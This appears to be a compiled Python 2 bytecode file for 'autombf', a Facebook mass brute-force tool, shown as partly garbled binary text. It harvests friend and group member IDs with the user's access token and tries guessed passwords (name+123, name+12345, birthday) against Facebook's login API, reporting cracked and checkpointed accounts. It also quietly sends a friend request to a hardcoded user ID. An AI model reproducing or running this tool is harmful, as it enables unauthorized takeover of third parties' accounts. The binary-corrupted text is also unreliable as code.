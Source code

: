 �
��\c           @   sn  d  d l  Z  d  d l Z d  d l Z d  d l Z d  d l Z d  d l Z d  d l Z d  d l Z d  d l Z d  d l	 Z	 d  d l
 Z
 d  d l Z d  d l m
 Z
 y d  d l Z Wn e k
 r� e  j d � n2 Xy d  d l Z Wn e k
 re  j d � n Xd  d l m Z d  d l m Z e e � e j d � e j �  Z e j e � e j e j j �  d d	 �d g e _ d d
 � Z e j �  j  d � d d k r�e d e! �  j  d � d � e j" �  n  d �  Z# d �  Z$ d �  Z% d �  Z& d �  Z' d �  Z( d �  Z) g  Z* g  Z+ g  Z, g  Z- g  Z. g  Z/ g  Z0 d �  Z1 d �  Z2 d �  Z3 e4 d k rje1 �  n  d S(   i����N(   t
   ThreadPools   pip2 install mechanizes   pip2 install requests(   t   ConnectionError(   t   Browsert   utf8t   max_timei   s
   User-AgentsR   Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16i    c         C   s�   d } xA | D]9 } | j  | � } |  j d | d t d | � � }  q
 W|  d 7}  |  j d d � }  | d k r� t j j |  � n t j j |  d � d  S(	   Nt   mhkbpcPs   !%ss   [%s;1mi   s   [0ms   !0i    s   
(   t   indext   replacet   strt   syst   stdoutt   write(   t   xt   et   wt   it   j(    (    s
   autombf.pyt   cetak   s    
(
t   .t   2sG   !m[!] Kamu menggunakan python versi %s silahkan menggunakan versi 2.x.xt    c           C   s(   t  d � t j d � t j j �  d  S(   Ns�   

[34;1m[[37;1m?[34;1m][35;1m Syukron
[34;1m[[37;1m?[34;1m][35;1m We Are Muslim Cyber Army Indonesia We Are Anonymous Indonesia We Are Do Not Forgiv We Are Do Not Forget Expect Us!!!
[34;1m[[37;1m?[34;1m][34;1m FB[37;1m :[35;1m https://m.facebook.com/muvistar14   rm -rf login.txt(   R   t   ost   systemR	   t   exit(    (    (    s
   autombf.pyt   keluar1%   s    

c           C   s   d GHt  �  d  S(   Ns   [1;91m[!] Keluar(   R   (    (    (    s
   autombf.pyt   keluar*   s    c         C   sC   x< |  d D]0 } t  j j | � t  j j �  t j d � q Wd  S(   Ns   
g�������?(   R	   R
   R   t   flusht   timet   sleep(   t   zR
   (    (    s
   autombf.pyt   jalan.   s    
c          C   sF   d d d g }  x0 |  D]( } d | Gt  j j �  t j d � q Wd  S(   Ns   .   s   ..  s   ... s)   
[1;91m[●] [1;92mSedang Masuk [1;97mi   (   R	   R
   R   R   R   (   t   titikt   o(    (    s
   autombf.pyt   tik5   s
    

c          C   sF   d d d g }  x0 |  D]( } d | Gt  j j �  t j d � q Wd  S(   Ns   .   s   ..  s   ... s/   
[1;91m[●] [1;92mMengambil Id Teman [1;97mi   (   R	   R
   R   R   R   (   R   R    (    (    s
   autombf.pyt   tok2=   s
    

c           C   s   t  d � d  S(   Nss  
           !h.-.-..
          /+/++//
         /+/++//
  !k*   !k* !h/+/++//
   \ /  |/__//
 !h{!mX!h}v{!mX!h}!0!b|!cMCA14!b|==========.
   !h(!m'!h)!0  !h/'|'\           !b\
       !h/  \  \          !b'
       !h\_  \_ \_   !k___!mMr.Down!k___

[1;93m* [1;97mAuthor  [1;91m: [1;96mRizky ID[1;97m
[1;93m* [1;97mSupport [1;91m: [1;96mDeray[1;97m | [1;96mAhmad Riswanto
[1;93m* [1;97mGitHub  [1;91m: [1;96m[4mhttps://github.com/Mulyani14[0m
!k.======================.
|!h  AMBIL !mID!h DARI.....  !k|
'======================'
!k#!p1 !h[4mDAFTAR TEMAN[0m
!k#!p2 !h[4mANGGOTA GROUP[0m
!k#!p3 !m[4mKELUAR...[0m(   R   (    (    (    s
   autombf.pyt   logoE   s    c           C   s   t  d � d  S(   Ns�  
           !h.-.-..
          /+/++//
         /+/++//
  !k*   !k* !h/+/++//
   \ /  |/__//
 !h{!mX!h}v{!mX!h}!0!b|!cMCA14!b|==========.
   !h(!m'!h)!0  !h/'|'\           !b\
       !h/  \  \          !b'
       !h\_  \_ \_   !k___!mMCA14!k___

[1;93m* [1;97mAuthor  [1;91m: [1;96mMr.Down[1;97m
[1;93m* [1;97mSupport [1;91m: [1;96mDeray[1;97m | [1;96mRespector
[1;93m* [1;97mGitHub  [1;91m: [1;96m[4mhttps://github.com/Mulyanie14[0m(   R   (    (    (    s
   autombf.pyt   logo2H   s    c          C   s�  t  j d � y t d d � }  t �  Wnst t f k
 r�t �  d GHt d � } t d � } t �  y t	 j d � Wn  t
 j k
 r� d GHt �  n Xt
 t	 j _ t	 j d	 d
 � | t	 j d <| t	 j d <t	 j �  t	 j �  } d
 | k rKy.d | d | d } i d d 6d d 6| d 6d d 6d d 6d d 6d d 6d d 6| d 6d d 6d  d! 6} t j d" � } | j | � | j �  } | j i | d# 6� d$ } t j | d% | �} t j | j � }	 t d d& � }
 |
 j |	 d' � |
 j �  d( GHt j d) |	 d' � t  j! d* � t �  WqKt j" j# k
 rGd GHt �  qKXn  d+ | k rsd, GHt  j! d- � t �  q�d. GHt  j d/ � t  j! d- � t$ �  n Xd  S(0   Nt   resets	   login.txtt   rs'   [1;91m[☆] [1;92mLOGIN AKUN FACEBOOKs+   [1;91m[+] [1;36mUsername [1;91m:[1;92m s+   [1;91m[+] [1;36mPassword [1;91m:[1;92m s   https://m.facebook.coms   
[1;91m[!] Tidak ada koneksit   nri    t   emailt   passs   save-devicesG   api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail=s`   format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword=s;   return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32t    882a8490361da98702bf97a021ddc14dt   api_keyt   passwordt   credentials_typet   JSONt   formatt   1t   generate_machine_idt   generate_session_cookiest   en_USt   locales
   auth.logint   methodt   0t   return_ssl_resourcess   1.0t   vt   md5t   sigs'   https://api.facebook.com/restserver.phpt   paramsR   t   access_tokens1   
[1;91m[[1;96m✓[1;91m] [1;92mLogin berhasilsM   https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token=g�������?t
   checkpoints'   
[1;91m[!] [1;93mAkun kena Checkpointi   s   
[1;91m[!] Login Gagals   rm -rf login.txt(%   R   R   t   opent   supert   KeyErrort   IOErrorR$   t	   raw_inputR!   t   brt	   mechanizet   URLErrorR   t   Truet   _factoryt   is_htmlt   select_formt   formt   submitt   geturlt   hashlibt   newt   updatet	   hexdigestt   requestst   gett   jsont   loadst   textR   t   closet   postR   R   t
   exceptionsR   t   login(   t   tokett   idt   pwdt   urlR:   t   dataR   t   aR&   R   t   zedd(    (    s
   autombf.pyRY   S   sd    



S






c           C   s   t  j d � y t d d � j �  a Wn7 t k
 r_ d GHt  j d � t j d � t �  n Xt  j d � t	 �  t
 �  d  S(   NR%   s	   login.txtR&   s    [1;91m[!] Token tidak ditemukans   rm -rf login.txti   (   R   R   R>   t   readRZ   RA   R   R   RY   R#   t   pilih_super(    (    (    s
   autombf.pyR?   �   s    




c          C   sI  t  d � }  |  d k r' d GHt �  n�|  d k r� t j d � t �  t d � t j d t � } t	 j
 | j � } x0| d D] } t j
 | d	 � q� Wn
|  d
 k rt j d � t �  t  d � } y> t j d | d
 t � } t	 j
 | j � } d | d GHWn t k
 r(d GHt �  n Xt j d | d t � } t	 j
 | j � } xP | d D] } t j
 | d	 � qaWn* |  d k r�t �  n d |  d GHt �  d t t t � � GHt d � d d d g } x0 | D]( }	 d |	 Gt j j �  t j d � q�WHd d GHd �  }
 t d  � } | j |
 t � d! GHt �  d  S("   Ns4   [33;1m[[37;1m?[33;1m][32;1m PILIH[34;1m:[36;1mt    s   [1;91m[!] Jangan kosongR0   R%   s/   [1;91m[+] [1;92mMengambil id teman [1;97m...s3   https://graph.facebook.com/me/friends?access_token=R^   R[   R   s,   [1;91m[+] [1;92mID Grup   [1;91m:[1;97m s%   https://graph.facebook.com/group/?id=s   &access_token=s<   [1;91m[[1;96m✓[1;91m] [1;92mNama grup [1;91m:[1;97m t   names   [1;91m[!] Grup tidak ditemukans   https://graph.facebook.com/s5   /members?fields=name,id&limit=999999999&access_token=t   3s   [1;91m[✖] [1;97ms    [1;91mTidak adas,   [1;91m[+] [1;92mJumlah ID [1;91m: [1;97ms.   [1;91m[✺] [1;92mTunggu sebentar [1;97m...s   .   s   ..  s   ... s1   

[1;91m[[1;96m✸[1;91m] [1;92mCrack [1;97mi   i(   s
   [1;97m═c         S   sS  |  } y?t  j d | d t � } t j | j � } | d d } t j d | d | d � } t j | � } d | k r� d	 | d
 | GHn�d | d k r� d
 | d
 | GHn�| d d } t j d | d | d � } t j | � } d | k rd | d
 | GHn2d | d k r6d | d
 | GHn| d d } t j d | d | d � } t j | � } d | k r�d | d
 | GHn� d | d k r�d | d
 | GHn� | d }	 |	 j	 d d � }
 t j d | d |
 d � } t j | � } d | k r d | d
 |
 GHn$ d | d k rDd | d
 |
 GHn  Wn n Xd  S(   Ns   https://graph.facebook.com/s   /?access_token=t
   first_namet   123s�   https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=s   &locale=en_US&password=sH   &sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6R<   s.   [1;97m[[1;92mOK✓[1;97m] [31;1m=>[37;1m s    [31;1m=>[37;1m s   www.facebook.comt	   error_msgs.   [1;97m[[1;93mCP✚[1;97m] [31;1m=>[37;1m t   12345s.   [37;1m[[1;92mOK✓[37;1m] [31;1m=>[37;1m s.   [37;1m[[1;93mCP✚[37;1m] [31;1m=>[37;1m t	   last_namet   birthdayt   /Rc   (
   RQ   RR   RZ   RS   RT   RU   t   urllibt   urlopent   loadR   (   t   argt   userR_   t   bt   pass1R^   t   qt   pass2t   pass3t   lahirt   pass4(    (    s
   autombf.pyt   main�   sF    
i   s   
[1;91m[+] [1;97mSelesai(   RB   Rb   R   R   R$   R   RQ   RR   RZ   RS   RT   RU   R[   t   appendR@   R   R   t   lenR	   R
   R   R   R   R    t   map(   t   peakR&   R   t   st   idgt   aswt   reR   R   R    Ry   t   p(    (    s
   autombf.pyRb   �   sZ    









		,t   __main__(   s
   User-AgentsR   Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16(5   R   R	   R   t   datetimet   randomRM   R�   t	   threadingRS   t   getpassRm   t   platformt   multiprocessing.poolR    RD   t   ImportErrorR   RQ   t   requests.exceptionsR   R   t   reloadt   setdefaultencodingRC   t   set_handle_robotst   Falset   set_handle_refresht   _httpt   HTTPRefreshProcessort
   addheadersR   t   python_versiont   splitR8   R   R   R   R   R!   R"   R#   R$   t   berhasilt   cekpointt   gagalt   idtemanR[   t   idfromtemant   idmemRY   R?   Rb   t   __name__(    (    (    s
   autombf.pyt   <module>   sP   �





								7		d
